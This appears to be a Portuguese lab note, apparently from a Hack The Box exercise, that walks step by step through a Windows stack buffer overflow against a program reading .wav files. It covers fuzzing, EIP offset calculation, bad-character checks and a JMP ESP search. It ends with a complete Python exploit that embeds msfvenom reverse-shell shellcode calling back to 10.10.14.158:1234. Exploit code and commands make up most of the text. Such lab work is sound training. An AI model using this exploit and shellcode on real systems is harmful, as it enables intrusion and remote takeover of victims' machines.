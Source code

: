 https://github.com/x64dbg/x64dbg
https://github.com/Andy53/ERC.Xdbg

Definindo um diretório padrão para o plugin:
```powershell
ERC --config SetWorkingDirectory C:\Users\htb-student\Desktop\
```

## Testando Parâmetros
Primeiro identificamos as possíveis entradas de dados e enviamos uma sequencia de A, a fim de quebrar a aplicação e identificar um possível Buffer Overflow.
Gerando uma sequência de A:
```powershell
python -c "print('A'*10000)"
```

Para criar um arquivo onde seu conteúdo será uma sequencia de A, utilizamos:
```powershell
python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"
```

Para confirmar que o EIP foi sobreescrito, verificamos em Hide FPU se o valor de EPI é 41414141 ou o erro: `First chance exception on 41414141`
## Calculando o Offset de EIP
Vamos criar um padrão único para enviarmos no ponto vulnerável e identificar o Offset de EIP.
Podemos utilizar o ERC para criar o pattern:
```powershell
ERC --pattern c 5000
```
Ou utilizamos o pattern_create:
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
```

Enviamos novamente o arquivo agora com o pattern e verificamos o valor de EIP.
Com o valor retornado, vamos calcular o offset com o comando:
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 31684630
```

Ou para utilizar o ERC para a mesma função, vamos primeiro identificar o ASCII do EIP clicando com o botão direito em EIP e selecionando Modify Value. Com o valor de ASCII rodamos o comando:
```powershell
ERC --pattern o 1hF0
```

## Controlando EIP
Com o Offset definido, podemos agora controlar o valor de EIP enviando o número de caracteres do offset + o valor que vai em EIP.
```python
def eip_control():
    offset = 4112
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip

    with open('control.wav', 'wb') as f:
        f.write(payload)
        
eip_control()
```
## Identificando Bad Characters
Para identificar os Bad Chars devemos ter duas listas de badchars, uma gerada pelo debuger e outra enviada no payload. Para criar um a lista de bytearray envie o comando:
```powershell
ERC --bytearray
```

Esse comando irá gerar duas listas, uma para o debugger e outra para utilizarmos no script. Vamos copiar os bytes de dentro do arquivo txt gerado e colar no nosso script.
Ao enviar o arquivo modificado para o programa, devemos identificar o endereço de ESP que é onde os bytes foram inseridos e compara-los com o comando:
```powershell
ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin
```

Ao identificar os bad chars, podemos gerar uma nova lista e repetir o processo:
```powershell
ERC --bytearray -bytes 0x00
```

## Finding a Return Instruction
Vamos utilizar um método depreciado para realizar a exploração, mas fundamental para o entendimento da técnica de Buffer Overflow. Os dados que enviamos além do Offset+EIP estão sendo gravados no topo da stack ESP, dessa forma, podemos inserir nosso código de shell reversa na ESP e utilizar um JMP ESP para direcionar o fluxo para o topo da pilha.

Para identificar todos os JMP ESP utilizamos o comando:
```powershell
ERC --ModuleInfo
```

Vamos eliminar da lista apresentada os endereços que tiverem True para NXCompat, Rebase ou ASLR.

Ao identificar um endereço, procure pelo mesmo na aba Symbols, de um duplo clique e aperta Ctrl+F para iniciar a pesquisa pelo JMP ESP (Também podemos pesquisar por CALL ESP).

Outra pesquisa é o PUSH ESP; RET, podemos utilizar a busca por pattern (Ctrl+b) com o valor 54C3 (TÃ).
## Jumping to Shellcode
Nessa etapa vamos criar o shellcode para explorar a aplicação.
Vamos utilizar o msfvenom para gerar um payload que será utilizado no python e irá abrir  a calculadora na máquina alvo:
```bash
msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'
```

Nosso exploit final com o comando para RCE:
```python
from struct import pack

def eip_control():

    offset = 4112
    buffer = b"A"*offset
    eip = pack('<L', 0x00419D0B)
    nop = b"\x90"*32

    # all_chars = bytes([
    #     0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
    #     ...,
    #     0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
    # ])

    # msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.14.158 LPORT=1234 -f 'python'

    buf =  b""
    buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
    buf += b"\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
    buf += b"\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
    buf += b"\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
    buf += b"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
    buf += b"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
    buf += b"\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
    buf += b"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
    buf += b"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b"
    buf += b"\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
    buf += b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
    buf += b"\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77"
    buf += b"\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
    buf += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b"
    buf += b"\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
    buf += b"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a"
    buf += b"\x0e\x9e\x68\x02\x00\x04\xd2\x89\xe6\x6a\x10\x56"
    buf += b"\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0c"
    buf += b"\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2\x56\xff\xd5"
    buf += b"\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
    buf += b"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01"
    buf += b"\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56"
    buf += b"\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f"
    buf += b"\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08"
    buf += b"\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
    buf += b"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
    buf += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"
    
    payload = buffer + eip + nop + buf
    with open('control.wav', 'wb') as f:
        f.write(payload)
  
eip_control()
```